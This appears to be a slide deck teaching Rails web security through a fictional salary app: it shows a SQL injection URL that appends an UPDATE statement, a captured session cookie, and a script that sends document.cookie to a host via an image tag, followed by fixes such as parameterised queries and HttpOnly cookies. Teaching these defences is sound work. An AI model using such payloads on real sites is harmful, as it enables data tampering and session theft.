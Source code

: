 !SLIDE 
# Web Security With Rails #

!SLIDE bullets incremental
# The Application #

* Some guy is going nuts, he can not handle his company salaries and raises process.
* He contacts you and ask you to build a quite simple application

!SLIDE bullets incremental
# And you build it! #

* Awesome, the application works. Everyone is happy. That's it right?
 
!SLIDE bullets incremental
# Day 1 - Injection #

* Early morning call from your customer.
* One employe automagically raised his own salary and was fired... so fix it.

!SLIDE small incremental bullets
#Did some research#

- You found that that a user used an Injection attack. He modified the query string adding and update statement.
- Query: javascript:alert(escape('1; UPDATE salaries SET amount = 123456789 WHERE user_id = 3;'))
- GET /raises/1
- GET /users/1%3B%20UPDATE%20salaries%20SET%20amount%20%3D%20123456789%20WHERE%20user_id%20%3D%203%3B

!SLIDE bullets incremental small
#The fix#

* Previously had:
 * @user = User.find(:all, :conditions => "id = #{params[:id]}").first
* Now he have:
 * @user = User.find(params[:id])
* We could also create a constraint for that route
 * get '/(:options)', :to => 'raises#index', :as => 'raises', :constraints => {:options => /\w{5}/}

!SLIDE bullets incremental
#Sanitize input#

* Use whitelist validation, black lists are never complete
* Rails adds XSS protection by default in Rails3
* [SafeBuffers and Rails3.0](http://yehudakatz.com/2010/02/01/safebuffers-and-rails-3-0/)

!SLIDE bullets incremental
#RoR built-in filter for special SQL characters#

* Default scape for ’ , " , NULL character and line breaks
* Using Model.find(id) or Model.find_by_some thing(something)
* In SQL Fragments, specially in conditions fragments it has to be applied manually
  * (:conditions => "...")
  * connection.execute() 
  * Model.find_by_sql() methods

!SLIDE bullets incremental

* Prefer:
  * Model.find(:first, :conditions => ["login = ? AND password = ?", entered_user_name, entered_password])
  * Model.find(:first, :conditions => {:login => entered_user_name, :password => entered_password})
  * Automatically sanitize tainted variables

!SLIDE bullets incremental
#Day 2 - Cross-Site Scripting(XSS)#

* Early morning call from your customer. Seems like somebody has been using his admin account.
* He lost control of the admin account.

!SLIDE bullets incremental
#server log#

* GET /_salary-manager_session=BAh7CCIQX2NzcmZfdG9rZW4iMWc4RTNDRERCZTVWSGxoV0lEWU5DeU93dEt1UForZjVBcm9wM2p0L3dEczg9Ig9zZXNzaW9uX2lkIiU4ZjRkNmZiMTQ2ZjdmMDA0YzU2NzVjODdlMGNhNDQwYSIZd2FyZGVuLnVzZXIudXNlci5rZXlbByIJVXNlcmkG--1cbc024cd3c3ba75d9df982f4615596dbc2bb2cf;%20a=1

!SLIDE bullets incremental smaller
#Harming script#

* &lt;script&gt;document.write('&lt;img src="http://localhost:80/' + document.cookie + '" &gt;')&lt;/script&gt;

!SLIDE bullets incremental smaller
#HTTPOnly#

* Rails3 enables HttpPOnly on cookies by default
* config/initializers/session_store.rb
* SalaryManager::Application.config.session_store :cookie_store, :key => '_acl_test_session', :httponly => false

!SLIDE bullets incremental smaller
#Sanitize input#

* Use whitelist validation, black lists are never complete
* validates_format_of :site, :with => /(^$)|(^(http|https):\/\/[a-z0-9]+([\-\.]{1}[a-z0-9]+)*\.[a-z]{2,5}(([0-9]{1,5})?\/.*)?$)/ix
